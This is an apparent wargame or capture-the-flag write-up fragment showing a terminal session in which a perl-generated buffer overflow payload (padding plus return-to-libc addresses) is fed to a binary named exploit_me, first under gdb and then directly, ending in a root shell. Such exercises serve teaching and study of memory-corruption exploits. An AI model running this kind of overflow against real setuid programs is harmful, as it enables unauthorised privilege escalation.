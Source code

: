 ```bash
                1 pattern found.

            (gdb) r "$(perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"')"
                The program being debugged has been started already.
                Start it from the beginning? (y or n) y

                Starting program: /home/zaz/exploit_me "$(perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"')"
                perl: warning: Setting locale failed.
                perl: warning: Please check that your locale settings:
                    LANGUAGE = (unset),
                    LC_ALL = (unset),
                    LC_TERMINAL_VERSION = "3.3.12",
                    LC_CTYPE = "fr_FR.UTF-8",
                    LC_TERMINAL = "iTerm2",
                    LANG = "en_US.UTF-8"
                    are supported and installed on your system.
                perl: warning: Falling back to the standard locale ("C").
                AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��OSEFX��
            $(perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"')) perl: warning: Setting locale failed.
                perl: warning: Please check that your locale settings:
                    LANGUAGE = (unset),
                    LC_ALL = (unset),
                    LC_CTYPE = "fr_FR.UTF-8",
                    LC_TERMINAL_VERSION = "3.3.12",
                    LC_TERMINAL = "iTerm2",
                    LANG = "en_US.UTF-8"
                    are supported and installed on your system.
                perl: warning: Falling back to the standard locale ("C").
                /bin/sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��OSEFX��: not found
            $ ./exploit_me $(perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"')
                perl: warning: Setting locale failed.
                perl: warning: Please check that your locale settings:
                    LANGUAGE = (unset),
                    LC_ALL = (unset),
                    LC_CTYPE = "fr_FR.UTF-8",
                    LC_TERMINAL_VERSION = "3.3.12",
                    LC_TERMINAL = "iTerm2",
                    LANG = "en_US.UTF-8"
                    are supported and installed on your system.
                perl: warning: Falling back to the standard locale ("C").
                AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��OSEFX��
            # whoami
                root
```

## We did it !
